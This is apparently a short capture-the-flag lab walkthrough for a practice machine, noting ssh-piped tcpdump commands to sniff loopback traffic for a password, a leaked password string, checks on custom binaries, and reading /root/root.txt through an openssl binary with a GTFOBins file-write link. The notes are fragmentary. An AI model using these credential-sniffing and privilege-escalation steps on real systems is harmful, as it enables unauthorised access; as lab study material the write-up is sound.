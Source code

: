 ### Check with two commands
```bash
ssh 10.10.17.120@10.10.10.119 /usr/sbin/tcpdump -i ens160 -U -s0 -w - not port 22 > ens160no22.pcap

wireshark ens160no22.pcap
```

### It only triggers for visiting status.php which is bad
##### Check in one commands via wireshark live
```bash
ssh 10.10.17.120@10.10.10.119 /usr/sbin/tcpdump -i lo -U -s0 -w - not port 22 | wireshark -k -i -
```

##### Or capture inside the box
```bash
tcpdump -i lo not port 22 -w capture.pcap -v

```

##### If the host only knows the password as sha512, send it what looks like an md5 doesn’t make sense. plain text password
8bc8251332abe1d7f105d3e53ad39ac2


### Check md5sum custom binaries
```bash
md5sum openssl /usr/bin/openssl tcpdump /usr/sbin/tcpdump
```

### Root
```bash
/home/ldapuser1/openssl enc -in /root/root.txt

# write to get root
https://gtfobins.github.io/gtfobins/openssl/#file-write
```